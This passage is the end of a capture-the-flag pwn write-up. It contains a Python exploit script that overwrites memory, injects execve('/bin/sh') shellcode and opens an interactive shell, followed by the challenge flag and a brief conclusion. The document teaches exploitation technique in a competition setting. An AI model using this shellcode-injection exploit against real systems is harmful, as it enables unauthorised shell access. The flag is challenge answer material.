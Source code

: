 ```python

# while True:
#     out = write_val(0x288, 0)
#     log.info(out)
#     if out == 0:
#         break

out = write_val(0x1de, 0)

''' change 'b' to 62 '''

for i in range(5):
    write_val(0x2cf, 0)

write_val(0x119, 0) # 64 ^ 64 so save_area = offsetted_function_data
write_val(0x2d9, 0) # overwrite the initial value of loop variable k to 64

write_addr = (-(offset * 0x400) - (0x8000 - 0x0))

shellcode = asm('''
xor rsi,rsi
xor rdx,rdx
xor rcx,rcx
mov rbp,0x68732f6e69622f
push rbp
mov rdi,rsp
mov rax,0x3b
syscall
''')

s1(1, 0x30, write_addr, shellcode)
s1(1, 0x40, 0x0, "A")

io.interactive()
```

**Flag**: `CTF{TZ-1n_us3rspac3-15-m3ss-d0nt-y0u-th1nk_s0?}`

## Conclusion

A simpler way to solve this would be to forge, by bruteforcing 12 bytes, a shellcode to read more data into the  `rwx` region. This was our initial idea, but due to a slow network we spent some time trying to optimize the
bruteforce before stumbling on to the solution that only uses a 1-byte bruteforce. Afterwards we realised that this could have been done without bruteforce :)

This was the only pwn we solved in this CTF. All the `pwn` and `sandbox` challenges of this CTF were really cool
and creative !
